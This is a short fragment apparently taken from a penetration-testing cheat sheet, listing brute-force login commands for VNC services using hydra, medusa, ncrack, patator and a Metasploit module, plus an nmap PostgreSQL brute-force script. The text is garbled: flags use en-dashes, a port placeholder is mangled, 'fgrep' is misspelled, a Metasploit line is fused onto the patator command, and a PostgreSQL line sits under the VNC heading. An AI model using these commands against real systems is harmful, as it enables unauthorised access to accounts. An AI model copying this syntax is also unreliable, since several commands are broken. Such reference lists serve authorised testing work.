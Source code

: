 ## VNC
```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc
ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```
